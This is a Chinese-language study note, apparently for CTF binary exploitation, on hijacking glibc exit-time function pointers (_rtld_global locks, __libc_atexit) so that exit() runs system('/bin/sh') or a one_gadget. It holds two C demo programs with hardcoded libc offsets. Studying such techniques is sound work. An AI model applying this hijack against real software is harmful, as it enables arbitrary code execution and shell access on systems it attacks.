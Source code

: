 # exit_hook劫持

`glibc-2.34`之前

## 四种方式

修改`_rtld_global._dl_rtld_lock_recursive`为`one_gadget`
修改`_rtld_global._dl_rtld_unlock_recursive`为`one_gadget`
修改`_rtld_global._dl_rtld_lock_recursive`为`system`和`_rtld_global._dl_load_lock`为`/bin/sh`
修改`_rtld_global._dl_rtld_unlock_recursive`为`system`和`_rtld_global._dl_load_lock`为`/bin/sh`

调用exit即可触发漏洞

## 示例

```C
// 修改`_rtld_global._dl_rtld_lock_recursive`为`system`和`_rtld_global._dl_load_lock`为`/bin/sh`
#include <stdio.h>
#include <stdlib.h>

char *binsh = "/bin/sh";

int main(void)
{
    /* 寻找地址 */

    // p/x &system-$libc
    char *libc_base = ((char *)(&system) - 0x52290);

    // p/x (void*)&_rtld_global._dl_rtld_lock_recursive-$libc
    // p/x (void*)&_rtld_global._dl_rtld_unlock_recursive-$libc
    size_t *rtld_lock_default_lock_recursive = (size_t *)(libc_base + 0x228f68);

    // p (void*)&_rtld_global._dl_load_lock-$libc
    size_t *dl_load_lock = (size_t *)(libc_base + 0x228968);

    /* 修改地址 */
        
    // 设置 rtld_lock_default_lock_recursive 为 system
    *rtld_lock_default_lock_recursive = (size_t)&system;

    // 设置 _dl_load_lock 为 /bin/sh
    *dl_load_lock = *(size_t*)binsh;

    exit(1);
    return 0;
}
```

## exit_hook+

通过`exit()->__run_exit_handlers()`中的`HOOK`如下:

```C
  if (run_list_atexit)
    RUN_HOOK (__libc_atexit, ());
```

但是2.35后面的版本不可写，之前的版本更新后也不可写，可以通过`gdb`动调查看`__libc_atexit`是否可写

```C
#include <stdio.h>
#include <stdlib.h>

int main(void)
{
    // p/x &system-$libc
    char *libc_base = ((char *)(&system) - 0x55410);
    // IDA进入exit函数后，查找_exit的交叉引用中含有exit的__run_exit_handlers的地方，找到函数指针的地址
    size_t* hook = libc_base + 0x1ED608;
    // 设置函数指针的地址为one_gadget的地址
    *hook = (size_t)(libc_base + 0xe6aee);
    // 触发
    exit(1);
    return 0;
}
```

### 寻找__libc_atexit

`IDA`进入`exit`函数后，查找`_exit`的交叉引用中含有`exit`的`__run_exit_handlers`的地方，找到函数指针的地址
